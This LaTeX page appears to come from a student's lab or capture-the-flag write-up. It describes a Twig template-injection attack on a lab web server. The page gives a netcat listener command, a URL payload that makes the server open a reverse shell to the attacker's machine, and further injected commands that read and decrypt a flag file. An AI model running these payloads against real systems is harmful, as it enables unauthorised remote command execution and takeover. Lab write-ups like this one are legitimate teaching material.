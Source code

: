 \documentclass[12pt]{report}
\begin{document}
	Reverse Shell\\
	A reverse shell works by the remote computer sending its shell to a specific user, rather than binding it to a port, which would be unreachable in many circumstances. This allows root commands over the remote server.\\
	
	We can get a reverse Shell using netcat, since we are able to execute commands on victim's machine.\\
	
	On the attacker side:\\
	{\sf nc -lpv 6666}\\
	
	After that we run a nc command on victim's side using our exploit.:\\
	{\sf http://192.168.1.102/index.php?hname=\{\{\_self.env.registerUndefinedFilterCallback(''system'')\}\} \{\{\_self.env.getfilter(''nc -c /bin/sh 192.168.1.29 6666'')\}\}}\\
	
	\paragraph*{6.}{\bf Capture the flag. Use all the information you gathered earlier to extract it. Show your results to your lab instructor.}\\
	
	From task 2, we know the location of the flag, which is /flag. We can see it's content using 'cat' command running through url.:\\
	{\sf http://192.168.1.102/index.php?hname=\{\{\_self.env.registerUndefinedFilterCallback(''system'')\}\} \{\{\_self.env.getfilter(''cat /flag'')\}\}}\\
	
	\begin{figure}[H]
		\texttt{[image: images/3\_5\_0.jpg]}
		\caption{Contents of /flag.}
	\end{figure}
	
	The file is encrypted, but we already have the key and initialization vector which were found on '53cr37.txt'. Using 'openssl' command with key and iv, we can decrypt the content.\\
	The url with the command:\\
	{\sf http://192.168.1.102/index.php?hname=\{\{\_self.env.registerUndefinedFilterCallback(''system'')\}\} \{\{\_self.env.getfilter(''openssl aes-256-cbc -d -a -iv ff52cb37f3818b7f4e175cf222d7f6 -K moon123 -in /flag'')\}\}}\\
	
	\begin{figure}[H]
		\texttt{[image: images/3\_5\_1.jpg]}
		\caption{Decrypted flag.}
	\end{figure}
\end{document}
